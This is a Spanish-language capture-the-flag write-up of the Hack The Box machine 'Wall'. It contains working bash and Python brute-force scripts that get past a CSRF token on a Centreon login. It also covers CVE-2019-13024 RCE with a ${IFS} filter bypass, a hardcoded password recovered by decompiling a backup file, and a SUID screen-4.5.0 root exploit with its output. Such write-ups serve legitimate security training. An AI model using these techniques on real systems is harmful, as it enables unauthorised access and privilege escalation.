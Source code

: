 ```yaml
---
title: Wall
date: 2022-07-31 13:25:30 +/-TTTT
categories: [HTB MACHINES, Linux]
tags: []     # TAG names should always be lowercase
---
```


```shell
 
```
Encontramos un servicio apache, procedemos a fuzzear y vemos que tenemos archivos php que no son de utilidad, en el directorio monitoring vemos que hay un login, con burpsuite podemos interceptar
la petición y ejecutar un `Verb Tampering`.

![imagen1](/assets/images/wall/wall1.png)

Vemos que nos redirije al /centreon a otro login, intentando contraseñas por defecto vemos que no se entra, interceptando la petición por burpsuite podemos apresiar que usa CSRF token como 
cookie por lo que no nos será posible usar fuerza bruta.

![imagen2](/assets/images/wall/wall2.png)

Dentro del código del login se puede ver que se encuentra el CSRF token, con esto podemos hacer un script donde obtengamos ese dato e intentar usarlo para aplicar fuzzeo al apartado de contraseña con 
usuario admin por defecto.

![imagen3](/assets/images/wall/wall3.png)

```shell
#!/bin/bash

function ctrlc (){
	echo -e "\n\nSaliendo..... \n";
	exit 1;
}

trap ctrlc INT

CSRF_token=""

for i in $(cat /usr/share/Seclists/Passwords/Common-Credentials/top-passwords-shortlist.txt); do
  CSRF_token=$(curl -s -X GET "http://10.10.10.157/centreon/index.php" | grep -oP '\w{32}')
  #echo $CSRF_token;
  echo "Probando $i ---> $(curl -s -L --location-trusted -X POST http://10.10.10.157/centreon/index.php -b "PHPSESSID=ga13o8hp8tjvper01poobo11tq" --data-binary "useralias=admin&password=$i&submitLogin=Connect&centreon_token=$CSRF_token")";
done
```
O en python

```python
#!/usr/bin/python3
import signal, requests, bs4, sys, time
from bs4 import BeautifulSoup

def def_handler(sig, frame):
    print("\n\nSaliendo....\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

url = "http://10.10.10.157/centreon/index.php"
s = requests.session()

def request_bruteforce(username, password):
    page = s.get(url)
    soup = BeautifulSoup(page.content, 'html.parser')
    token = soup.find('input', attrs = { 'name' : 'centreon_token' })['value']
    data = {'useralias':username,
            'password':password,
            'submitLogin':'Connect',
            'centreon_token':token}
    
    response = s.post(url, data=data)
    
    if "incorrect" not in response.text:
        print("Credentials found:{}{}".format(username, password))

with open('/usr/share/Seclists/Passwords/Common-Credentials/top-passwords-shortlist.txt') as wordlist:
    for word in wordlist:
        password = word.rstrip()
        print("[*] Trying {}".format(password))
        request_bruteforce('admin',password)
```
Con esto obtenemos que la contraseña es `password1`, procedemos a logearnos. Investigando nos encontramos con el `CVE 2019-13024` que muestra un `RCE` dentro de la configuración de un poll

![imagen4](/assets/images/wall/wall4.png)

Interceptamos la petición desde la ruta que menciona la vulnerabilidad, pasamos data mediante post y podemos ver que se aprecia el comando ejecutado.

![imagen5](/assets/images/wall/wall5.png)

La aplicación tiene alguna restricción al usar espacios, por lo que podemos usar `${IFS}` para baypassearlo. Utilizamos base64 para que sea más fácil y estamos dentro.

```shell
www-data@Wall:/opt/.shelby$ file backup
backup: python 2.7 byte-compiled
www-data@Wall:/opt/.shelby$
```
Dentro encontramos un archivo backup, que está compliado en python, podemos usar `uncompyle6`

```shell
uncompyle6 uncompiled.pyc > clean.py
❯ cat clean.py
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: clean.py
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ # uncompyle6 version 3.8.0
   2   │ # Python bytecode 2.7 (62211)
   3   │ # Decompiled from: Python 3.9.2 (default, Feb 28 2021, 17:03:44) 
   4   │ # [GCC 10.2.1 20210110]
   5   │ # Embedded file name: backup.py
   6   │ # Compiled at: 2019-07-30 09:38:22
   7   │ import paramiko
   8   │ username = 'shelby'
   9   │ host = 'wall.htb'
  10   │ port = 22
  11   │ transport = paramiko.Transport((host, port))
  12   │ password = ''
  13   │ password += chr(ord('S'))
  14   │ password += chr(ord('h'))
  15   │ password += chr(ord('e'))
  16   │ password += chr(ord('l'))

<SNIP>
```
Dentro encontramos la contraseña del usuario shelby y vemos que tiene permisos SUID en screen-4.5.0

```shell
shelby@Wall:/$ find \-perm -4000 2>/dev/null
./bin/mount
./bin/ping
./bin/screen-4.5.0
./bin/fusermount
./bin/su
./bin/umounta
./usr/bin/chsh
```
Buscamos y vemos que tiene una vulnerabiliad, ejecutamos un script que encontramos en la web y ya seremos root

```shell
shelby@Wall:/tmp$ nano exploit.sh
shelby@Wall:/tmp$ chmod +x exploit.sh 
shelby@Wall:/tmp$ ./exploit.sh 
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function ‘dropshell’:
/tmp/libhax.c:7:5: warning: implicit declaration of function ‘chmod’; did you mean ‘chroot’? [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^~~~~
     chroot
/tmp/rootshell.c: In function ‘main’:
/tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’; did you mean ‘setbuf’? [-Wimplicit-function-declaration]
     setuid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’; did you mean ‘setbuf’? [-Wimplicit-function-declaration]
     setgid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’; did you mean ‘setbuf’? [-Wimplicit-function-declaration]
     seteuid(0);
     ^~~~~~~
     setbuf
/tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
     setegid(0);
     ^~~~~~~
/tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^~~~~~
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-shelby.

# whoami
root
# 
```
